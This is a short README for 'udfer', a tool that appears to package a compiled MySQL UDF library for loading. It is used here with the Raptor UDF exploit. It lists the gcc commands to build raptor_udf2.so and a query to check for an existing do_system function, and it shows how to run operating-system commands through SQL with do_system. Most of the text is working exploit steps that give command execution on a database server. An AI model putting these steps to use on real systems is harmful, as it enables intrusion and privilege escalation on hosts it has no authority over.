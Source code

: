 # udfer

./udfer /path/to/your/mysql/udf.so

My use case was the old Raptor UDF exploit, so:

~~~
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
./udfer /path/to/raptor_udf2.so
~~~

Before running the code this produces, ensure that the do_system UDF does not exist!

~~~
select * from mysql.func where name = 'do_system'
~~~

If it does exist and you run the command provided, you will clobber an existing function.

Run commands like this:
~~~
select do_system('touch /tmp/file.txt');
~~~